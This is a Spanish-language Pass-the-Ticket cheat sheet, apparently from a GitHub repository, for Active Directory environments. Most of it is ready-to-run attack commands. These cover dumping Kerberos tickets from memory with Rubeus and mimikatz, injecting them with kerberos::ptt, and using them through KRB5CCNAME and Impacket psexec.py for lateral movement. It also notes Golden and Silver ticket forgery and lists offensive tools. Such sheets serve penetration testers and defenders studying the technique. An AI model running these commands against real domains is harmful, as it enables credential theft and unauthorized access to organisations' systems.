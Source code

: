 **\[Pass-the-Ticket Cheatsheet]**

---

**Escenario**: Reutilización de tickets Kerberos (TGT o TGS) para autenticarse en sistemas del dominio.

**Requisitos Previos**:

* Ticket Kerberos válido (TGT o TGS) en formato `.kirbi` o `.ccache`.
* Acceso a la red del dominio.
* Acceso a herramientas para inyectar o exportar tickets (mimikatz, Rubeus, Impacket).
* Conocer el usuario/dominio al que pertenece el ticket.

---

**Enumeración del Entorno**:

* Identificar servicios Kerberos:

  ```bash
  nmap -p 88 <target-range>
  crackmapexec smb <target> -u <user> -p '<password>' --kerberos
  ```
* Confirmar existencia y validez de tickets:

  ```powershell
  klist (Windows)
  klist -c <file>.ccache (Linux)
  ```
* Obtener tickets con Rubeus o Mimikatz:

  ```powershell
  Rubeus.exe dump
  mimikatz: sekurlsa::tickets
  ```

---

**Explotación (Pass-the-Ticket)**:

* Inyectar TGT con Mimikatz:

  ```powershell
  kerberos::ptt <ticket.kirbi>
  ```

* Usar ticket Kerberos en Linux:

  ```bash
  export KRB5CCNAME=<ticket>.ccache
  psexec.py <domain>/<user>@<target>
  ```

* Verificar uso del ticket:

  ```powershell
  klist
  whoami
  ```

---

**Notas Adicionales**:

* Un TGT permite solicitar nuevos TGS para servicios.
* Los TGS solo sirven para un servicio específico (ej: cifs/HOST).
* Los tickets expiran, pero pueden renovarse si se tiene el TGT.
* Golden Ticket y Silver Ticket son variantes de Pass-the-Ticket:

  * Golden: ticket TGT forjado con la clave krbtgt.
  * Silver: TGS forjado con la clave del servicio.

---

**Herramientas Recomendadas**:

* Mimikatz
* Rubeus
* Kekeo
* Impacket (`psexec.py`, `wmiexec.py`, `smbexec.py`)
* CrackMapExec (con soporte Kerberos)
* Klist / KRB5CCNAME
